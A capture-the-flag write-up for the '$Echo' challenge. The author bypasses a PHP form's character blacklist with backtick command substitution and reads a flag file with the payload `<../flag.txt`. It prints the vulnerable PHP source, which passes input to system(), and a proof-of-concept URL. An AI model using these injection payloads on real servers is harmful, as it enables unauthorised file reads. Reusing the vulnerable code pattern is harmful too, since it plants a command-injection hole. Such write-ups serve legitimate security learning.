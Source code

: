 # $Echo challenge
  
This challenge has a simple HTML page with a php form:
```html
<form method="get" name="index.php">
    <input type="text" name="echo" id="echo" size="80">
    <input type="submit" value="Echo">
</form>
```
I've tested with the string `asd`. It printed `asd` into the page.  
Ok, apparently it prints things into the page, let's play with it.  
  
Firstly, I've tested with a looong string and it printed: `Man that's a mouthful to echo, what even?`.  
Then I tested with an empty string. It printed: `Please don't be lame, I can't just say nothing.`.  
  
So, now I know it prints things. What if I inject a command into it?  
With my bash scripting knowledge I tried two things:  
Tried to inject the command `$(ls)`. It printed: `Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:(
`. Very funny tough.  
  
The other thing which allow to execute code is `` ` `` (backtick). Tried ``ls``. It printed: `index.php`. Nice, it worked!!  
After that I used cat to read the index.php content, which broke the page layout but I could get the content on the source code of the page:  
```php
<?php
    $to_echo = $_REQUEST['echo'];
    $cmd = "bash -c 'echo " . $to_echo . "'";
    if(isset($to_echo)) {
        if($to_echo=="") {
            print "Please don't be lame, I can't just say nothing."; 
        } elseif (preg_match('/[#!@%^&*()$_+=\-\[\]\';,{}|":>?~\\\\]/', $to_echo)) { 
            print "Hey mate, you seem to be using some characters that makes me wanna throw it back in your face >:("; 
        } elseif ($to_echo=="cat") { 
            print "Meowwww... Well you asked for a cat didn't you? That's the best impression you're gonna get :/"; 
        } elseif (strlen($to_echo) > 15) { 
            print "Man that's a mouthful to echo, what even?"; 
        } else { 
            system($cmd); 
        } 
    } else { 
        print "Alright, what would you have me say?"; 
    } 
?>
```
Now I know what is going on. If I input a string which is not empty, do not contain those chars on that regex, is not equal to "cat" and is not greater than 15 chars, the string will be echoed by the command:  
`bash -c 'echo string'`.  
  
So I started to look for the flag by using the old good ls command and I found the flag on the parent directory `` `ls ..` ``:  
`flag.txt html`  
  
Ok, now how can I read this flag.txt file?  
I cannot use `` `cat ../flag.txt` `` because it has more than 15 chars.  
  
Let's check the source code again looking to the keyboard. Which character is not on that regex besides the `` ` `` (backtick)?
The answer is the `<`.  
  
Knowing that the input string will be the argument to the echo command, I can redirect the input which is the keyboard by default by using the `<` to redirect the input from a file. So to read the flag all I need is to run this: `` `<../flag.txt` ``.  
  
Boom, flag printed, challenge done! (I won't show the flag here, go get yourself, punk!).  
  
PoC: `http://CHALLENGEURL/?echo=%60%3C..%2Fflag.txt%60`